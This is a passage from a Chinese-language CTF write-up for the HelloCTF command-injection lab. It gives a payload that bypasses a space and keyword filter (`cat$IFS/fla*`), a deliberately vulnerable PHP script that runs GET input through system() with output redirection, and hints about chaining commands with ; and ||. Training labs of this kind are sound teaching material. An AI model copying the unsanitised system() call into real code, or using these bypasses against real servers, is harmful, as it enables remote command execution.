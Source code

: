 > 过滤了空格和 flag
>

```php
/?cmd=ls /
cat$IFS/fla*
```

![](https://cdn.nlark.com/yuque/0/2025/png/49936693/1737290327284-4b3adb0b-ba59-4eb8-acdc-bccc4f4c31f9.png)

## Level 8  文件描述和重定向
```php
 <?php 
/*
# -*- coding: utf-8 -*-
# @Author: 探姬
# @Date:   2024-08-11 14:34
# @Repo:   github.com/ProbiusOfficial/RCE-labs
# @email:  admin@hello-ctf.com
# @link:   hello-ctf.com

--- HelloCTF - RCE靶场 : 命令执行 - 重定向 --- 

大多数 UNIX 系统命令从你的终端接受输入并将所产生的输出发送回​​到您的终端。一个命令通常从一个叫标准输入的地方读取输入，默认情况下，这恰好是你的终端。同样，一个命令通常将其输出写入到标准输出，默认情况下，这也是你的终端 —— 这些是命令有回显的基础。

如果希望执行某个命令，但又不希望在屏幕上显示输出结果，那么可以将输出重定向到 /dev/null：
$ command > /dev/null

/dev/null 是一个特殊的文件，写入到它的内容都会被丢弃；如果尝试从该文件读取内容，那么什么也读不到。但是 /dev/null 文件非常有用，将命令的输出重定向到它，会起到"禁止输出"的效果。
如果希望屏蔽 stdout 和 stderr，可以这样写：
$ command > /dev/null 2>&1

*/

function hello_shell($cmd){
    /*>/dev/null 将不会有任何回显，但会回显错误，加上 2>&1 后连错误也会被屏蔽掉*/
    system($cmd.">/dev/null 2>&1");
}

isset($_GET['cmd']) ? hello_shell($_GET['cmd']) : null;

highlight_file(__FILE__);


?>

```

> 使用  ； 分割命令
>
> 或者使用 || 逻辑符短路后面的命令
>
